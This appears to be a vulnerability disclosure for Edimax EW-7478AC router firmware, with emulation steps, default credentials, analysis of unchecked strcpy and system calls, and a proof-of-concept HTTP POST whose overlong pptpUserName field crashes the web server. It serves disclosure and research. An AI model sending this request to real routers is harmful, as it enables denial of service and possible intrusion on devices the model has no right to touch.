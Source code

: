 ## **Description**

A buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.07**. The vulnerability arises from the improper input validation of the `pptpUserName` parameter in the 'setWAN' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.07

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'setWAN'is below:
![vulner_code.png](./img/vulner_code.png)

- ​**websGetVar** retrieves POST parameters.
- ​**strcpy()**, **sprintf()** is used without length checks, leading to a ​buffer overflow.
- **system()** is used without check, so there may be a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/setWAN HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

wanMode=2&pptpUserName=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&pppPassword=test
```

After the request the `webs` process will crash.
![result](./img/result.png)